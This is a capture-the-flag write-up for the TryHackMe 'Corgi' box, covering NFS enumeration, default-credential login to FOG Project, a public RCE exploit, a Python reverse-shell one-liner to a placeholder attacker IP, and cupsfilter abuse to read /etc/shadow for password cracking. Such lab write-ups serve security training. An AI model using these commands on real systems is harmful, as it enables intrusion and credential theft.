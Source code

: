 # Corgi
Try this OSCP level practice box by JSON SEC at https://tryhackme.com/room/corgi

## nmap TCP scan
The first thing we do on any pen test is a nmap scan. I went with a TCP-SYN scan with default scripts and all ports

`nmap -sS -sC -p- <TARGET-IP>`
![nmap scan pt1](../images/nmap_1.png)
![nmap scan pt2](:/6d2ef1ea1b724079bc96d0ffbaf5ea91)

## NFS
from this scan we can see that nfs is installed on the server, lets use `showmount` to see if there are any shares we can mount to our system.
![0ab7abcb4db170d7b31f2975f2ed6614.png](:/4d1e42f9ef814017937dfdaf642ea77a)
looks like there are 2 shares we can mount, lets use mount one of them and have a look around
![4d2d1a230846255da7bb365383f206fd.png](:/c1b020b306344a64857a4e28e94067fa)

## FOG Project
after looking around we found this fog file, after some quick google searching I found this documentation for something called 'FOG project'
![3a5dd118150843ea5f6dc38ee38187a6.png](:/c69aa96cc3324422993f48f586ece162)
and going to `<TARGET-IP>/fog` takes us to a login page
![b8cda2f2b49703c47ffcf5d6b2506673.png](:/cd80521c0b524a6a9e199593d15c4cdf)
Now that we have a login page we need some credentials. before we try anything else lets try and find some default creds on google.
![405ec8ea462164f98ff212cdf85fbe9d.png](:/44fcff83142b4daa948d32de06b5594a)
Lucky for us these default credentials worked and we are now logged in to the FOG dashboard
![20a6f58f0cf7228d53ac48c6c1099ae2.png](:/fdfb33226906456d8d4e28859258b659)

## RCE Exploit
now that we have access to a dashboard lets have a look on exploit.db to see if there are any known exploits for the version of FOG that is installed.
![9adba4d0a01811ddbb176e6ea4d601bc.png](:/4bddb8cb41be4c4c85de6e3b072f60d6)
Lucky Break, there is a RCE exploit here https://www.exploit-db.com/exploits/49811
![760649555dc6b666380a05fb6ebe3b7c.png](:/4c2efc74c4914041a377b3c79a97ebba)
lets try and use this RCE exploit and test to see if we can run commands on the server before we try and gain access through a remote shell.
![ac4efb628133910c86d4f130be274811.png](:/bbc4273adbb9495394032d4b98eec13f)
![34ba939c344bca30df8712d58a48b718.png](:/9e687c6301fe4f27b964e866ffc5cffa)
running the hostname command to test if file upload worked
![eae0e0362befad53ed6e5af6a9a15efc.png](:/15c757a0818b4c1985fd32f8ff723bb9)

## Reverse Shell & Privilege Escalation
now that we have RCE lets get our reverse shell up and running

`python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER-IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`
![f5d6aa9578469b24a8dbfdc92a7a7a33.png](:/7875820ea9a844848efe45fffd6dd8b9)
and stabilise the shell
![5d28a637abdc6b3765504b121d090e5f.png](:/a4ea6801f77f4c2f939fce11f774875c)

now that we have a working and stable reverse shell, we need to be able to read the /etc/shadow and /etc/passwd files.
First lets find out what binaries we have access to with `find`

`find / -perm /4000 2>/dev/null`
![9cae3ff8a5c41702a93e850a06854b1a.png](:/ce9d248e64994e5bae8bca10223a5ac7)
After having a search on https://gtfobins.github.io/, we found that the cupsfilter binary has a File read vulnerability, and we can use this to read the /etc/shadow and /etc/passwd files

![6c6f7fc33238b59402c03ef5a1298a1a.png](:/1a511ebff2c6419bbf24d0ebd2363812)
`cupsfilter -i application/octet-stream -m application/octet-stream /etc/passwd`
![074eefb955ebd5e2fc02d0547f78d118.png](:/f574c0d04fdb4988805293edeceba32c)
![38db1ecb8b19d27b8cdb80706e3a2be0.png](:/ee80be10975b4eb98b9b9c0757c90bd6)
`cupsfilter -i application/octet-stream -m application/octet-stream /etc/shadow`
![8a437ccfebc38cae72c4f6f485eeb2b2.png](:/244c3a55448147d0a64d75858f7d7231)
![1a0515583d685b785daf91ff9df8f7a9.png](:/a6d11a56fd2149159d1a9e1276abfa60)
lets copy the contents of the files onto our host computer, then use unshadow and johntheripper to get the passwords

`unshadow passwd.txt shadow.txt`
`john --wordlist=/usr/share/wordlists/rockyou.txt`
![9a13e4b0a843d245da892d1f72c3c487.png](:/57b3d7e5c84e485fa8af2fe25fe3ead9)

so now we have a login, lets `su` into the new user and see what permissions they have.sudo 
![4bb2d2dccab7ce872a5a8b260f41d897.png](:/1143b3cf111a483a89c5e01af6644212)

so it looks like they can run any command, lets try to get into the root account and find the user and root hashes

![8c471db405b89841fbffcda1ae7b4c95.png](:/d1382a6454204a378a43b74af7b25337)
![4d6ee4505811590c7fe4fad20744d06e.png](:/57476ef107614746bf0ebe01e218a7df)
